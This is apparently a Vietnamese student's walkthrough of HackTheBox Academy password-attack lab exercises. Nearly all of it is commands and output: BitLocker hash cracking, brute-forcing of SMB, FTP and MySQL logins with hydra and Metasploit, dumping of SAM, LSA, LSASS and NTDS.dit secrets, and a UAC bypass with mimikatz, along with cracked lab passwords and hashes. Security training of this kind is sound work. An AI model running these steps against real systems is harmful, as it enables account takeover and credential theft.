




# Cracking Protected Archives
#### Questions
+ 0  Run the above target then navigate to http://ip:port/download, then extract the downloaded file. Inside, you will find a password-protected VHD file. Crack the password for the VHD and submit the recovered password as your answer.

Lấy hash của file:

```zsh
bitlocker2john -i Private.vhd > private.hash
```

Lấy hash cần thiết
```zsh
grep "bitlocker\$0" private.hashes > private.hash
```

Chạy hashcat crack thu được pass là `francisco`

```zsh
hashcat -m 22100 private.hash /usr/share/wordlists/rockyou.txt -o private_cracked.txt
```

+ 0  Mount the BitLocker-encrypted VHD and enter the contents of flag.txt as your answe

Chúng ta sẽ mount trên linux, tuy hơi rắc rối một chút nhưng dành cho khi không dùng máy ảo hoặc host là linux luôn.

```zsh
sudo apt install dislocker qemu-utils -y
```

Load kernel module NBD
```zsh
sudo modprobe nbd max_part=16
```

Gắn file .VHD, .VHDx... vào một thiết bị như ndb0
```zsh
sudo qemu-nbd -c /dev/nbd0 Private.vhd
```

Tạo thư mục để mount
```zsh
sudo mkdir /mnt/bitlocker
```

Giải mã phân vùng bằng mật khẩu
```zsh
sudo dislocker -V /dev/nbd0p1 -ufrancisco -- /mnt/bitlocker
```

File giải mã sẽ nằm tại /mnt/bitlocker/dislocker-file. Mount file này vào thư mục mong muốn:
```zsh
sudo mkdir /mnt/decrypted
sudo mount -o loop /mnt/bitlocker/dislocker-file /mnt/decrypted
```

Lấy nội dung:
```zsh
cd /mnt/decrypted
cat flag.txt
```


Xong việc, dọn dẹp sạch sẽ:

```zsh
sudo umount /mnt/decrypted
sudo umount /mnt/bitlocker
sudo qemu-nbd -d /dev/nbd0
sudo rmdir /mnt/decrypted && sudo rmdir /mnt/bitlocker
sudo modprobe -r nbd
```
# Network Services
+ 0  Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

```zsh
❯ crackmapexec winrm 10.129.105.153 -u username.list
```

`john:november`


+ 0  Find the user for the SSH service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.


`dennis:rockstar`

+ 0  Find the user for the RDP service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

```powershell
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

dennis@WINSRV C:\Users\dennis>cd Desktop 

dennis@WINSRV C:\Users\dennis\Desktop>type flag.txt 
HTB{Let5R0ck1t}                        
dennis@WINSRV C:\Users\dennis\Desktop> 
```

+ 0  Find the user for the SMB service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.


`john:november`

Trông có vẻ dễ ăn cho tới khi không vào được (permission denied), chuyển hướng sang enum cả list với metasploit:

```zsh
msf6 auxiliary(scanner/smb/smb_login) > set user_file /home/kali/Desktop/learning/password_attack/username.list
user_file => /home/kali/Desktop/learning/password_attack/username.list
msf6 auxiliary(scanner/smb/smb_login) > set pass_file /home/kali/Desktop/learning/password_attack/password.list
pass_file => /home/kali/Desktop/learning/password_attack/password.list
msf6 auxiliary(scanner/smb/smb_login) > run
```


```zsh
[+] 10.129.105.153:445    - 10.129.105.153:445 - Success: '.\john:november'
[+] 10.129.105.153:445    - 10.129.105.153:445 - Success: '.\dennis:rockstar'
[+] 10.129.105.153:445    - 10.129.105.153:445 - Success: '.\chris:789456123'
[+] 10.129.105.153:445    - 10.129.105.153:445 - Success: '.\cassie:12345678910'
```

Check `shares` thì có `CASSIE` -> Ưu tiên cassie:12345678910


# Password Mutations

+   Create a mutated wordlist using the files in the ZIP file under "Resources" in the top right corner of this section. Use this wordlist to brute force the password for the user "sam". Once successful, log in with SSH and submit the contents of the flag.txt file as your answer.

```zsh
❯ hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
❯ cat mut_password.list | wc -l
94044
```

Tips: Brute force các dịch vụ khác như smb hoặc ftp cho ra kết quả nhanh hơn.

```zsh
❯ hydra -l sam -P mut_password.list ftp://10.129.17.11 -I -t 50 -v
[STATUS] 740.40 tries/min, 11106 tries in 00:15h, 82938 to do in 01:53h, 50 active
[21][ftp] host: 10.129.17.11   login: sam   password: B@tm@n2022!
[STATUS] attack finished for 10.129.17.11 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

```zsh
sam@nix01:~$ cd smb
sam@nix01:~/smb$ ls -la
total 12
drwx------  2 sam samba 4096 Feb  9  2022 .
drwxr-xr-x 14 sam sam   4096 Feb  9  2022 ..
-rw-rw-r--  1 sam sam     20 Feb  9  2022 flag.txt
sam@nix01:~/smb$ cat flag.txt 
HTB{P455_Mu7ations}
sam@nix01:~/smb$ 
```

# Password Reuse / Default Passwords

+ 0  Use the user's credentials we found in the previous section and find out the credentials for MySQL. Submit the credentials as the answer. (Format: \<username>:\<password>)

Đầu tiên forward mysql về VM:

```zsh
❯ ssh -L 33060:localhost:33060 sam@10.129.17.11
```

Với dạng này thì nên dùng options `hydra -C`

Search Google có của Seclists tuy nhiên không ăn thua,


Trong bài đề cập đến tool [DefaultCreds-Cheat-Sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet).

```zsh
❯ creds search mysql --export
+---------------------+-------------------+----------+
| Product             |      username     | password |
+---------------------+-------------------+----------+
| mysql (ssh)         |        root       |   root   |
| mysql               | admin@example.com |  admin   |
| mysql               |        root       | <blank>  |
| mysql               |      superdba     |  admin   |
| scrutinizer (mysql) |    scrutremote    |  admin   |
+---------------------+-------------------+----------+

[+] Creds saved to /tmp/mysql-usernames.txt , /tmp/mysql-passwords.txt 📥
```

```zsh
❯ paste -d ':' /tmp/mysql-usernames.txt /tmp/mysql-passwords.txt > mysql-creds.txt
❯ hydra -C mysql-creds.txt mysql://localhost:33060
```

Vẫn có vẻ không ổn, thôi đành test bằng tay thôi...
Gặp lỗi này: ERROR 2002 (HY000): Can't connect to local server through socket '/run/mysqld/mysqld.sock' (2)

```zsh
sudo systemctl start mysqld     # or mysql on some distros :contentReference[oaicite:1]{index=1}  
sudo systemctl enable mysqld  
sudo systemctl status mysqld    # should show “active (running)” :contentReference[oaicite:2]{index=2}  
```

```zsh
❯ mysql -h 127.0.0.1 -P 33060 -usuperdba -padmin ERROR 5010 (HY000): Authentication plugin 'mysql_old_password' couldn't be found in restricted_auth plugin list.
```
### **Nguyên nhân:**

- Máy chủ MySQL đích đang sử dụng plugin xác thực lỗi thời `mysql_old_password` (đã bị deprecated từ MySQL 4.1).
    
- Client MySQL trên máy local của bạn (phiên bản mới) đã loại bỏ hỗ trợ cho plugin này do lỗ hổng bảo mật.

Cho nên ta cần chạy `script` sau trên máy nạn nhân:

```bash
#!/usr/bin/bash

USER_FILE="mysql-usernames.txt"
PASS_FILE="mysql-passwords.txt"

mapfile -t USERS < "$USER_FILE"
mapfile -t PASSES < "$PASS_FILE"

OUT="mysql-checked.txt"
> "$OUT"

for user in "${USERS[@]}"; do
  for pass in "${PASSES[@]}"; do
    # Thử connect, với --connect-timeout để tránh treo lâu
    if mysql --host=localhost --port=33060 \
             --user="$user" --password="$pass" \
             --connect-timeout=5 \
             -e "SELECT 1" &>/dev/null; then
      echo "[OK] $user:$pass" >> "$OUT"
    else
      echo "[FAIL] $user:$pass" >> "$OUT"
    fi
  done
done

echo "Hoàn tất! Kết quả lưu ở: $OUT"
```

Và sau đó:
```zsh
sam@nix01:~$ ./test.sh 
Hoàn tất! Kết quả lưu ở: mysql-checked.txt
sam@nix01:~$ cat mysql-checked.txt 
[FAIL] admin@example.com:
[FAIL] admin@example.com:root
[FAIL] admin@example.com:admin
[FAIL] scrutremote:
[FAIL] scrutremote:root
[FAIL] scrutremote:admin
[FAIL] superdba:
[FAIL] superdba:root
[OK] superdba:admin
[FAIL] root:
[FAIL] root:root
[FAIL] root:admin
sam@nix01:~$ 
```
# Attacking SAM

+ 0  Where is the SAM database located in the Windows registry? (Format: ****\***)

> **hklm/sam**

 RDP to 10.129.202.137 (ACADEMY-PWATTACKS-WIN10SAM) with user "Bob" and password "HTB_@cademy_stdnt!"

+ 1  Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.


Tiến hành dump:

```zsh
❯ ls
sam.save  security.save  system.save

❯ impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xd33955748b2d17d7b09c9cb2653dd0e8
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
jason:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
ITbackdoor:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
frontdesk:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
[*] NL$KM 
 0000   E4 FE 18 4B 25 46 81 18  BF 23 F5 A3 2A E8 36 97   ...K%F...#..*.6.
 0010   6B A4 92 B3 A4 32 DE B3  91 17 46 B8 EC 63 C4 51   k....2....F..c.Q
 0020   A7 0C 18 26 E9 14 5A A2  F3 42 1B 98 ED 0C BD 9A   ...&..Z..B......
 0030   0C 1A 1B EF AC B3 76 C5  90 FA 7B 56 CA 1B 48 8B   ......v...{V..H.
NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
[*] _SC_gupdate 
(Unknown User):Password123
[*] Cleaning up... 
```

Xử lý gọn gàng:
```zsh
awk -F: '{ print $1 ":" $4 }' SAM.txt > ntlm_hashes.txt
❯ hashcat -m 1000 it-backdoor.txt /usr/share/wordlists/rockyou.txt --user --show
ITbackdoor:c02478537b9727d391bc80011c2e2321:matrix
```


 RDP to 10.129.202.137 (ACADEMY-PWATTACKS-WIN10SAM) with user "Bob" and password "HTB_@cademy_stdnt!"

+ 1  Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer. (Format: username:password, Case-Sensitive)

```zsh
❯ crackmapexec smb 10.129.202.137 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
SMB         10.129.202.137  445    FRONTDESK01      [*] Windows 10 / Server 2019 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.202.137  445    FRONTDESK01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.202.137  445    FRONTDESK01      [+] Dumping LSA secrets
SMB         10.129.202.137  445    FRONTDESK01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.202.137  445    FRONTDESK01      NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
SMB         10.129.202.137  445    FRONTDESK01      frontdesk:Password123
SMB         10.129.202.137  445    FRONTDESK01      [+] Dumped 3 LSA secrets to /home/kali/.cme/logs/FRONTDESK01_10.129.202.137_2025-04-23_102902.secrets and /home/kali/.cme/logs/FRONTDESK01_10.129.202.137_2025-04-23_102902.cached
```

**Cách 2:**

```zsh
❯ crackmapexec smb 10.129.202.137 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
SMB         10.129.202.137  445    FRONTDESK01      [*] Windows 10 / Server 2019 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.202.137  445    FRONTDESK01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.202.137  445    FRONTDESK01      [+] Dumping SAM hashes
SMB         10.129.202.137  445    FRONTDESK01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.202.137  445    FRONTDESK01      Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.202.137  445    FRONTDESK01      DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.202.137  445    FRONTDESK01      WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
SMB         10.129.202.137  445    FRONTDESK01      bob:1001:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
SMB         10.129.202.137  445    FRONTDESK01      jason:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
SMB         10.129.202.137  445    FRONTDESK01      ITbackdoor:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
SMB         10.129.202.137  445    FRONTDESK01      frontdesk:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         10.129.202.137  445    FRONTDESK01      [+] Added 8 SAM hashes to the database
```

```zsh
❯ echo 'frontdesk:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::' | awk -F: '{ print $1 ":" $4 }' > frontdesk.txt

❯ cat frontdesk.txt
frontdesk:58a478135a93ac3bf058a5ea0e8fdb71

❯ hashcat -m 1000 frontdesk.txt /usr/share/wordlists/rockyou.txt --user --show
frontdesk:58a478135a93ac3bf058a5ea0e8fdb71:Password123
```


# Attacking Windows Credential Manager

#### Questions

 RDP to 10.129.234.171 (ACADEMY-PWATTCK-CREDDEV01) with user "sadams" and password "totally2brow2harmon@"

+ 0  What is the password mcharles uses for OneDrive?

```cmd
runas /savecred /user:SRV01\mcharles cmd
```

Sau khi có shell của mcharles, ta tiến hành bypass UAC bằng msconfig

```cmd
msconfig.exe
```

Vào mục tools, tìm `command prompt` rồi chọn launch


Khi này chúng ta có thể chạy mimikatz.exe mà không bị ràng buộc với quyền admin. Hãy thử privilege::debug để kiểm tra đầu ra, sau đó tiền hành dump:

```cmd
sekurlsa::credman
```

Thu được một mật khẩu của người dùng, đây không phải là password cho onedrive.


Chúng ta cần rdp với phiên của người dùng này

```zsh
xfreerdp3 /v:10.129.234.171 /u:mcharles /p:proofs1insight1rustles!
```


Khi này chạy cmd với quyền admin rồi dump bằng mimikatz.exe thêm một lần nữa.


# Attacking LSASS

+ 0  What is the name of the executable file associated with the Local Security Authority Process?
> lsass.exe

 RDP to 10.129.174.59 (ACADEMY-PWATTACKS-LSASS) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 1  Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer. (Format: Case sensitive)

#### **Tiến hành dump**
Cách 1:


Cách 2:


## Extract Credentials

#### Running Pypykatz
```zsh
❯ pypykatz lsa minidump lsass.DMP
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 1400434 (155e72)
session_id 2
username DWM-2
domainname Window Manager
logon_server 
logon_time 2025-04-23T14:52:43.749603+00:00
sid S-1-5-90-0-2
luid 1400434
        == WDIGEST [155e72]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [155e72]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 1396637 (154f9d)
session_id 0
username htb-student
domainname FS01
logon_server FS01
logon_time 2025-04-23T14:52:40.358986+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1006
luid 1396637

== LogonSession ==
authentication_id 73485 (11f0d)
session_id 1
username DWM-1
domainname Window Manager
logon_server 
logon_time 2025-04-23T14:39:41.270604+00:00
sid S-1-5-90-0-1
luid 73485
        == WDIGEST [11f0d]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [11f0d]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 42217 (a4e9)
session_id 0
username 
domainname 
logon_server 
logon_time 2025-04-23T14:39:39.364348+00:00
sid None
luid 42217

== LogonSession ==
authentication_id 44086 (ac36)
session_id 1
username UMFD-1
domainname Font Driver Host
logon_server 
logon_time 2025-04-23T14:39:40.317493+00:00
sid S-1-5-96-0-1
luid 44086
        == WDIGEST [ac36]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [ac36]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 43293 (a91d)
session_id 0
username UMFD-0
domainname Font Driver Host
logon_server 
logon_time 2025-04-23T14:39:40.208100+00:00
sid S-1-5-96-0-0
luid 43293
        == WDIGEST [a91d]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [a91d]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 999 (3e7)
session_id 0
username FS01$
domainname WORKGROUP
logon_server 
logon_time 2025-04-23T14:39:39.161216+00:00
sid S-1-5-18
luid 999
        == WDIGEST [3e7]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == Kerberos ==
                Username: fs01$
                Domain: WORKGROUP
        == WDIGEST [3e7]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == DPAPI [3e7]==
                luid 999
                key_guid 7a4c5806-cde2-4e33-bb8e-a7988d928856
                masterkey 3036713f3ccfde362f57050b050289413347b9063264743b01c65e4143c6806512ece05c708b934afe48cd5b8cfe88de125d6208bbe048bd3fb83838adf2946e
                sha1_masterkey 6c3046d0bc927cdfd9b4503c6115034018dbddd1
        == DPAPI [3e7]==
                luid 999
                key_guid e9cc30c4-53bb-487b-8bc5-e2bb17623a06
                masterkey cd9d19f576262373c8dbffb9d21736b7746b165acbfbc92a823a5e329dc42c5d6dedba53d1a5964bfe84fa5d387b8bc5e0f9e2e7586264853b818284637e5726
                sha1_masterkey 3478c36725f217ad5fd4bee7680f815af0828193
        == DPAPI [3e7]==
                luid 999
                key_guid 0c1b6c0a-191d-4839-8cf5-22ca4c3e5880
                masterkey dccd4056a5b0cc8211193669e6aea7755eeccd393adf0e5efa1f2a571c96039a7dbe05c9082c44f85b3080bb908eb41fb9f860174cd365e655f3d5788d5a8427
                sha1_masterkey efddd94b4348303e90c8d7285e8b65738196dc86
        == DPAPI [3e7]==
                luid 999
                key_guid 0453985c-7220-49f4-b024-79acf0de7874
                masterkey aaf3cdd36cf0d10871efd0d78a527664afc58078e84d49734f372fbb09e209538f606e0c5f0481b9f4d6ac6efb9a3631f16e38737a1b3cc15d0db42b63ebc90e
                sha1_masterkey 1d77f450edb6c76d14838b5b351672f35eec615f
        == DPAPI [3e7]==
                luid 999
                key_guid c19ecbf1-ea92-487e-a2d4-419f60a62360
                masterkey 387a060baf6887038b7ff133cd0eb4712ecdf531c16030a82395db368e6b2cda563dd026ccb815e1fb85215281a5437f085e3a5ca47fe9038e7e072f46270d74
                sha1_masterkey 5b07ca8e21e100937af4ab6d3f2482c745245436
        == DPAPI [3e7]==
                luid 999
                key_guid 6c61536b-7453-4ffa-911b-693858aef0c9
                masterkey 0c5f662bf8f65c75b773e4698606db1e2e387ad18a9c4fdee25e0dbac6eb7c04e04874d1910aba465ef3380a92b46231d7a781df2f5e38d2621e06c7476b222f
                sha1_masterkey cbabadd23d93b47ec94ac604ac91945135c5a097

== LogonSession ==
authentication_id 1421259 (15afcb)
session_id 2
username htb-student
domainname FS01
logon_server FS01
logon_time 2025-04-23T14:52:44.515231+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1006
luid 1421259
        == MSV ==
                Username: htb-student
                Domain: FS01
                LM: NA
                NT: 3c0e5d303ec84884ad5c3b7876a06ea6
                SHA1: b2978f9abc2f356e45cb66ec39510b1ccca08a0e
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [15afcb]==
                username htb-student
                domainname FS01
                password None
                password (hex)
        == Kerberos ==
                Username: htb-student
                Domain: FS01
        == WDIGEST [15afcb]==
                username htb-student
                domainname FS01
                password None
                password (hex)

== LogonSession ==
authentication_id 1399081 (155929)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server 
logon_time 2025-04-23T14:52:43.733971+00:00
sid S-1-5-96-0-2
luid 1399081
        == WDIGEST [155929]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [155929]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 129497 (1f9d9)
session_id 0
username Vendor
domainname FS01
logon_server FS01
logon_time 2025-04-23T14:39:44.598701+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1003
luid 129497
        == MSV ==
                Username: Vendor
                Domain: FS01
                LM: NA
                NT: 31f87811133bc6aaa75a536e77f64314
                SHA1: 2b1c560c35923a8936263770a047764d0422caba
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [1f9d9]==
                username Vendor
                domainname FS01
                password None
                password (hex)
        == Kerberos ==
                Username: Vendor
                Domain: FS01
        == WDIGEST [1f9d9]==
                username Vendor
                domainname FS01
                password None
                password (hex)

== LogonSession ==
authentication_id 73503 (11f1f)
session_id 1
username DWM-1
domainname Window Manager
logon_server 
logon_time 2025-04-23T14:39:41.270604+00:00
sid S-1-5-90-0-1
luid 73503
        == WDIGEST [11f1f]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [11f1f]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 996 (3e4)
session_id 0
username FS01$
domainname WORKGROUP
logon_server 
logon_time 2025-04-23T14:39:40.598759+00:00
sid S-1-5-20
luid 996
        == WDIGEST [3e4]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == Kerberos ==
                Username: fs01$
                Domain: WORKGROUP
        == WDIGEST [3e4]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 1421288 (15afe8)
session_id 2
username htb-student
domainname FS01
logon_server FS01
logon_time 2025-04-23T14:52:44.515231+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1006
luid 1421288
        == MSV ==
                Username: htb-student
                Domain: FS01
                LM: NA
                NT: 3c0e5d303ec84884ad5c3b7876a06ea6
                SHA1: b2978f9abc2f356e45cb66ec39510b1ccca08a0e
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [15afe8]==
                username htb-student
                domainname FS01
                password None
                password (hex)
        == Kerberos ==
                Username: htb-student
                Domain: FS01
        == WDIGEST [15afe8]==
                username htb-student
                domainname FS01
                password None
                password (hex)
        == DPAPI [15afe8]==
                luid 1421288
                key_guid c75b5a96-7d80-4511-8bb8-474e3c09670f
                masterkey 12e8cc72d4d672d492fc8878c736aea970e11d74e87061fe779ce8884c9f0cb20cd0db541f95440ed8c4d527a91682fb7721ba397700932a49c8dbb7120cd2c8
                sha1_masterkey a34f57ba87672c43f091934906052ac4cf7364f7

== LogonSession ==
authentication_id 1400461 (155e8d)
session_id 2
username DWM-2
domainname Window Manager
logon_server 
logon_time 2025-04-23T14:52:43.749603+00:00
sid S-1-5-90-0-2
luid 1400461
        == WDIGEST [155e8d]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)
        == WDIGEST [155e8d]==
                username FS01$
                domainname WORKGROUP
                password None
                password (hex)

== LogonSession ==
authentication_id 997 (3e5)
session_id 0
username LOCAL SERVICE
domainname NT AUTHORITY
logon_server 
logon_time 2025-04-23T14:39:41.551826+00:00
sid S-1-5-19
luid 997
        == Kerberos ==
                Username: 
                Domain: 
```

```zsh
❯ hashcat -m 1000 '31f87811133bc6aaa75a536e77f64314' /usr/share/wordlists/rockyou.txt --show
31f87811133bc6aaa75a536e77f64314:Mic@123
```

# Attacking Active Directory & NTDS.dit

+ 0  What is the name of the file stored on a domain controller that contains the password hashes of all domain accounts? (Format: ****.***)
> NTDS.dit

+ 0  Submit the NT hash associated with the Administrator user from the example output in the section reading.
> 64f12cddaa88057e06a81b54e73b949b


+ 1  On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)

**HINT:**


```zsh
❯ cat full-names.txt
John Marston
Carol Johnson
Jennifer Stapleton

❯ ./username-anarchy --input-file ./full-names.txt --select-format flast
jmarston
cjohnson
jstapleton
```


Không thể dùng xfreerdp3, vậy ta thử win-rm:
```powershell
❯ evil-winrm -i 10.129.247.33 -u jmarston -p 'P@ssword!'
Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jmarston\Documents> 

```

User này có quyền admin:


Tiến hành lấy NTDS.dit:


#### **DUMPING CREDS**

Cách 1: Lấy cả system (hoặc cả security nếu cần) trong hives và dùng secretdump tương tự dump SAM hay LSASS:

```zsh
❯ impacket-secretsdump -ntds NTDS.dit -system system.save -security security.save LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:7b1c5a9fa8d096673b0b7c38e0e780c48ed6aafc9ba88a3f573ace3585243d2229739c6f09fb5813a0dd10f70eef496503add381650fc17447147447a76c9b3df7943c1fc2cbc24ea52baebe919575c36db6e4661da83856293b01c506c056b8120db64bc6f8ff435fda712780e3668fbc9e0d1f3590085c7222609469c2808bd688130589ca932449503a766a0517ebc13c8fd132ca4b8f298edcebbf095c4ad58e6ef858922edc17ac00a78cca38bbfff8843fe3a5bdd3bfb3afdbd7946080904cc2c24f8464176f5596893c1d73a01449307267f460adf8d79ba94425bcc4f4ba3cfb1b85a367f7ce53b9d497e9c9
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:3fd7bdb040a6a1b291df4505494a2888
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x91605a6ced1362b191874d151b7e183e8273c60b
dpapi_userkey:0xfddc0156308f24b7eb480878ff9eb60caa820661
[*] NL$KM 
 0000   5F 03 DB 6A FD 54 3D 01  47 59 09 C8 F7 91 CE 72   _..j.T=.GY.....r
 0010   F6 28 B7 AD 55 B4 5E A6  9E 9D 7E 3A DE 1E A0 BF   .(..U.^...~:....
 0020   93 FB 4C E5 4D 8E AB 2C  0B 44 7F 3A F1 58 4C 1A   ..L.M..,.D.:.XL.
